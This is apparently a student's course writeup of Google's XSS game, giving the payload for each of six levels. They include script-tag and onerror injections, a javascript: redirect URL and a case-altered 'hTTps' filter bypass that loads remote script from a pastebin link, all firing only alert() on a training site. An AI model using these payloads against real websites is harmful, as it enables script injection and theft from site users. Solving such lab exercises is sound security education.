 # Crypto II Writeup

Name: Michael Wong
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Michael Wong

## Assignment Writeup

### Part 1 (40 Pts)

### Part 2 (60 Pts)

Level 1:

a) Input the following in to the search boc
 <script>alert(1);</script>

Level 2:

a) Input the following into the chat box
  <img src="http://inexist.ent" onerror="javascript:alert(1)"/>

Level 3:

a) Input the following in the url
  https://xss-game.appspot.com/level3/frame#2.jpg'/><script>alert(1);</script>


Level 4
  
a) Input the following in to the input box
  3'); alert(‘1

Level 5
  
a) Click sign up for an exclusive beta

b) Instead of entering an email, we can change the url from:
  https://xss-game.appspot.com/level5/frame/signup?next=confirm

  to

  https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(0);

c) and click next

Level 6:

a) Make a pastebin post with “alert(1);”

b) Get the link to the raw file https://pastebin.com/raw/F6navA5Q

c) Change 'https' to something like 'hTTps' in order to bypass the input sanitation

d) Put this into the url

  https://xss-game.appspot.com/level6/frame#hTTps://pastebin.com/raw/F6navA5Q
